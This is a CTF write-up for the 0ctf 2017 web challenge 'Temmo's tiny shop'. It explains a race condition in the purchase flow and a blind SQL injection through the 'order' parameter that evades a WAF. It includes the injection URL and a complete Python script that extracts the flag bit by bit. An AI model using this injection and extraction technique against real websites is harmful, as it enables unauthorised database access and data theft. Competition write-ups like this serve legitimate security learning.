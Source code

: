 # 0ctf 2017 - Temmo's tiny shop

## !SpamAndHex - Hege

Temmo's tiny shop is a 3-paged web application. After registering one can purchase
and sell goods from a predefined list, using a total of 4000 credits. The app also
allows us to search our purchased items by name, and order them by any field.

![shop ss](ss-shop.png)

Notice the `!HINT!` item, costing more than our initial money. Also there is an
info page, where we get funny messages for our purchases.

![info ss](ss-info.png)

## Obtaining !HINT!

Buying and seling takes a considerably long time, so assume that there is a race
condition and try to exploit it. We made it simple: opened multiple sessions for
the same user and buyed and sold items randomly. Clearly there was a race
condition, so started pushing buttons systematically, trying to sell as much goods
in parallel as possible. We quickly got enough credits to buy !HINT!, no
automation was needed at all.

![hint ss](ss-hint.png)

_OK! Now I will give some hint: you can get flag by use `select flag from
ce63e444b0d049e9c899c9a0336b3c59`_

## Obtaining flag through SQLi

The search form uses
`http://202.120.7.197/app.php?action=search&keyword=&order=price`.
Messing around with the parameters revealed the following:

* There is a WAF
* `order` param is vulnerable to SQLi

WAF rejects queries matching `[^0-9a-zA-Z\(\)&]|()|union|user` (and a few more
keywords and possibly table names) with
`{"status":"fail","msg":"WAF seems don't like you."}`.

We managed to leak bits of the flag by manipulating the order of the results:

```
http://202.120.7.197/app.php?action=search&keyword=&order=if(price%26300,1,if((select(ascii(substr(flag,{index},1))%26{mask})from(ce63e444b0d049e9c899c9a0336b3c59)),0,2))
```

So we leaked the flag bit by bit, and there you go: `flag{r4ce_c0nditi0n_i5_excited}`.

Code for the lazy:

```
import requests
import json

# the used account needs to have a Schrodinger's cat, an ice cream and nothing else

def extract_string(char_mask_intersects):
  flag = ""
  try:
    for index in range(1, 1000):
      char = 0
      for bit in range(8):
        mask = 1 << bit
        if char_mask_intersects(index, mask):
          char += mask
      if not char:
        break
      char = chr(char)
      print("CHAR: " + char)
      flag += char
  except Exception as err:
    print(err)
  return flag

def bit_mask_in_flag(char_index, mask):
  url = (
    "http://202.120.7.197/app.php?action=search&keyword=&order=" +
    "if(price%26300,1,if((select(ascii(substr(flag,{},1))%26{})from(ce63e444b0d049e9c899c9a0336b3c59)),0,2))"
  ).format(char_index, mask)
  print("  requesting {},{}".format(char_index, mask))
  resp = requests.get(url, headers={
    "Cookie": "PHPSESSID=<populate this>"
  })
  resp = json.loads(resp.text)
  return resp["goods"][0]["price"] != "300"

print("FLAG: " + extract_string(bit_mask_in_flag))
```


